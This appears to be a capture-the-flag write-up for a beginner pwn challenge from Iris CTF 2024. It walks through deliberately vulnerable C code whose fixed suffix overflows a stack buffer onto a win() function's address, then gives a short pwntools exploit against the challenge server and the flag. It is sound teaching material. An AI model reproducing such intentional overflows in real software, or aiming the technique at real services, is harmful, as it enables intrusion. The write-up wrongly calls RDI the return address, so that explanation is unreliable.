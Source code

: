 ```yaml
---
layout: writeup
category: Iris-CTF-2024
chall_description:
points: 50
solves: 254
tags: Iris-CTF-2024 pwn pwn/buffer-overflow pwn/ret2win
date: 2024-1-7
comments: false
---
```


I've tried the brand new michael-ld linker on my hello world program. I'm pretty sure it's super safe now.  
`nc insanity-check.chal.irisc.tf 10003`  
[insanity-check.tar.gz](https://github.com/Nightxade/ctf-writeups/blob/master/assets/CTFs/Iris-CTF-2024/insanity-check.tar.gz)  

---

We're given an ELF binary and a C source file. Here's `vuln.c`:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void rstrip(char* buf, const size_t len) {
    for (int i = len - 1; i >= 0; i--)
        if (buf[i] == '\n') {
            buf[i] = '\0';
            break;
        }
}

const char suffix[] = "! Welcome to IrisCTF2024. If you have any questions you can contact us at test@example.com\0\0\0\0";

int main() {
    char message[128];
    char name[64];
    fgets(name, 64, stdin);
    rstrip(name, 64);

    strcpy(message, "Hi there, ");
    strcpy(message + strlen(message), name);
    memcpy(message + strlen(message), suffix, sizeof(suffix));

    printf("%s\n", message);
}

__attribute__((section(".flag")))
void win() {
    __asm__("pop %rdi");
    system("cat /flag");
}
```

Firstly, we can clearly recognize the use of `fgets()`, which is known to be safe from buffer overflow. Thus, we can't directly overflow the `name` variable, as it is allocated 64 bytes and fgets ensures the program only reads 64 bytes.  

However, something else seems to be happening. We are also adding some other strings onto the name to create a message, and printing it back to the user. There's no format string vulnerability, as `%s` is used for the printf call. But, that `suffix` variable seems pretty long... and we're only allocated 128 bytes for the `message` variable. Can we cause a buffer overflow there?  

I sent 64 bytes of input to the program, and sure enough, we got a segfault. There's our vulnerability!  

But, there's a slight problem. We can't directly modify RDI (i.e. the return address) with our input, as it's not long enough. But there's a very suspicious string at the end of `suffix`... why are there 4 null bytes?  

At this point, I realized the trick. Maybe the end of the suffix very conveniently turned out to be the address of the win function?  

Running `file vuln` (since I forgot to do it before), I realized that this was an x86-64 ELF, which means the 4 null bytes at the end made sense. Then, with pwntools, I checked the win address with `print(elf.symbols['win'])`, which returned `0x6d6f632e`. That looks suspiciously like ASCII. A quick hex to ASCII conversion shows that it definitely is!  

Hence, we just have to send in the correct offset of bytes to get the win address to align correctly. Simple guess and check should work, as with pwndbg's gdb, it'll show us what part of the string is currently filling the win address. Thus, here's the final exploit after guess and check:  

```py
from pwn import *
import pwnlib.util.packing as pack

elf = ELF("./vuln")
context.binary = elf
context.log_level = "DEBUG"
context(terminal=["tmux","split-window", "-h"])

# p = process('./vuln')
# gdb.attach(p)
p = remote('insanity-check.chal.irisc.tf', 10003)

p.sendline(
    b'A'*56
)

p.interactive()
```

And here's the flag!  

    irisctf{c0nv3n13nt_symb0l_pl4cem3nt}